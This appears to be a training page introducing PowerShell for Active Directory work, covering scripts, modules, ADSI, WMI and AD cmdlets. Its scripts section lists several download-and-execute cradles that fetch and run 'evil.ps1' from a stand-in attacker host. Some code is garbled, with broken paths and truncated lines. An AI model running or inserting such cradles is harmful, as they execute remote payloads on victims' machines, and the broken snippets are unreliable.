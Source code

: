 # 2.1 - Introduction to PowerShell

## **What is PowerShell?**

{% embed url="https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4" %}
[https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4](https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4)
{% endembed %}

**PowerShell** is a powerful scripting and automation platform developed by Microsoft. It combines the flexibility of a scripting language with the functionality of a command-line shell, enabling users to manage systems, automate repetitive tasks, and access system components programmatically.

* **Cross-Platform**: Available on Windows, macOS, and Linux.
* **Object-Oriented**: Operates with objects instead of plain text, allowing for more precise and flexible scripting.
* **Integration**: Seamlessly integrates with .NET and other Microsoft technologies.
* **Use Cases**: Ideal for administrative tasks, system configuration, and cybersecurity operations.

<div align="left"><figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p><a href="https://pbs.twimg.com/media/Duju2mhX4AE6a0u.jpg:large">https://pbs.twimg.com/media/Duju2mhX4AE6a0u.jpg:large</a></p></figcaption></figure></div>

{% embed url="https://www.stationx.net/powershell-cheat-sheet/" %}
[https://www.stationx.net/powershell-cheat-sheet/](https://www.stationx.net/powershell-cheat-sheet/)
{% endembed %}

## **Core Components**

### **Scripts**

**Scripts**: `.ps1` files containing PowerShell commands for automating tasks.

*   A script to list all running services:

    ```powershell
    Get-Service | Where-Object { $_.Status -eq "Running" }
    ```
* Load a PowerShell script using dot sourcing:

```powershell
C:\AD\Tools|PowerView.ps1
```

* Download execute [cradle](https://github.com/danielbohannon/Invoke-CradleCrafter)

```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1') sponse
```

```powershell
$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1 ');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $re
```

```powershell
PSv3 onwards - iex (iwr 'http://192.168.230.1/evil.ps1')
```

```powershell
$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText
```

```powershell
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

Check out Invoke-CradleCrafter:

{% embed url="https://github.com/danielbohannon/Invoke-CradleCrafter" %}
[https://github.com/danielbohannon/Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)
{% endembed %}



* Load a PowerShell script using dot sourcing:

```powershell
C:\AD\Tools|PowerView.ps1
```

### **Modules**

**Modules**: Packages of reusable cmdlets, scripts, and resources.

* Popular modules include:
  * `ActiveDirectory`: Manages AD objects.
  * `Pester`: For testing scripts.
  * `PSReadLine`: Enhances the shell experience.
*   Install with:

    ```powershell
    Install-Module -Name ModuleName
    ```
* A module (or a script) can be imported using:

```powershell
Import-Module C:\AD\Tools|AdModule-master\ActiveDirectory\ActiveDirectory.psd1
```

* All the commands into a module can be listed using:

```powershell
Get-Command -Module <modulename>
```

## **PowerShell for Active Directory (AD)**

PowerShell is a primary tool for managing AD environments.

#### **ADSI (Active Directory Service Interfaces)**

ADSI is a set of COM interfaces for interacting with directory services like Active Directory. It enables querying, modifying, and managing directory objects without requiring additional modules. PowerShell can use ADSI for lightweight operations, especially on systems without the AD module. ADSI uses LDAP paths to locate objects and execute changes. It is versatile but requires knowledge of directory structure and object attributes. Common use cases include user management, password resets, and retrieving directory information. ADSI is powerful for automation in legacy environments or restrictive setups.

#### **.NET Classes for AD**

.NET classes in PowerShell provide direct access to Active Directory operations via the .NET Framework. Key classes like `DirectorySearcher` and `DirectoryEntry` allow querying and managing directory objects. These classes offer fine-grained control over AD queries and modifications. Unlike cmdlets, .NET classes require coding expertise but are highly flexible. They are useful for advanced scenarios like custom searches or handling large datasets. .NET integration with PowerShell allows developers to bypass module dependencies. This approach is ideal for scripting in environments with strict constraints.

**Native Executables**

Native executables like `dsquery`, `net user`, and `nltest` interact directly with Active Directory without PowerShell. They are pre-installed on Windows systems, making them a reliable fallback. These tools are useful for quick queries, user enumeration, or domain configuration checks. For example, `dsquery` retrieves specific AD objects, while `net user` checks group memberships. Native executables can be used in combination with PowerShell for hybrid scripts. They are particularly valuable in environments where PowerShell use is restricted. However, they are less script-friendly compared to PowerShell cmdlets or .NET classes.

**4. WMI (Windows Management Instrumentation) with PowerShell**

WMI is a Windows management framework for accessing system and network information, including Active Directory. PowerShell leverages WMI to query or modify system and directory data remotely. Common uses include querying system information, AD containers, or domain-related data. WMI supports cross-system communication, making it useful for remote administration. It uses namespaces and classes like `DS_Container` to access directory objects. WMI is efficient for real-time monitoring and automation tasks. It is especially valuable in environments where standard AD tools are unavailable.

**5. Active Directory Module (AD Module)**

The AD module is a PowerShell module providing cmdlets for seamless Active Directory management. It simplifies complex AD operations, such as querying users (`Get-ADUser`) or managing groups (`Add-ADGroupMember`). The module integrates tightly with the AD schema, ensuring compatibility and ease of use. It is ideal for administrators who prefer high-level commands over low-level scripting. Common administrative tasks, like resetting passwords or managing group policies, are easily automated. The AD module requires installation on systems that need to run AD-specific cmdlets. It is a go-to tool for modern AD management via PowerShell.

### **Common AD Tasks**

*   **Querying AD Objects**:

    ```powershell
    Get-ADUser -Filter * -SearchBase "OU=IT,DC=example,DC=com"
    ```
*   **Modifying Users or Groups**:

    ```powershell
    New-ADUser -Name "John Doe" -SamAccountName "jdoe" -UserPrincipalName "jdoe@example.com"
    Add-ADGroupMember -Identity "IT_Group" -Members "jdoe"
    ```

### **Benefits of PowerShell with AD**

1. Automation of repetitive administrative tasks.
2. Bulk modifications (e.g., importing users from CSV).
3. Real-time monitoring and auditing through queries.
